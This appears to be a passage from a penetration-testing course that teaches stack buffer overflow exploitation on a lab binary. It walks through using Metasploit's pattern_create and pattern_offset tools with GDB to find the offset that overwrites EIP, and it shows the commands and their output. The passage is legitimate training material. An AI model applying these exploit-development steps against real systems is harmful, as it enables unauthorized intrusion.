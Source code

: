 The offset is used to determine how many bytes are needed to overwrite the buffer and how much space we have around our shellcode.

Shellcode is a program code that contains instructions for an operation that we want the CPU to perform. The manual creation of the shellcode will be discussed in more detail in other modules. But to save some time first, we use the Metasploit Framework (MSF) that offers a Ruby script called “pattern_create” that can help us determine the exact number of bytes to reach the EIP. It creates a unique string based on the length of bytes you specify to help determine the offset.

#### Create Pattern

  Create Pattern

```shell-session
gdxqpardo@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
gdxqpardo@htb[/htb]$ cat pattern.txt
```

Now we replace our 1200 "`U`"s with the generated patterns and focus our attention again on the EIP.

#### GDB - Using Generated Pattern

  GDB - Using Generated Pattern

```shell-session
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()
```

#### GDB - EIP

  GDB - EIP

```shell-session
(gdb) info registers eip

eip            0x69423569	0x69423569
```

We see that the `EIP` displays a different memory address, and we can use another MSF tool called "`pattern_offset`" to calculate the exact number of characters (offset) needed to advance to the `EIP`.

#### GDB - Offset

  GDB - Offset

```shell-session
gdxqpardo@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Exact match at offset 1036
```
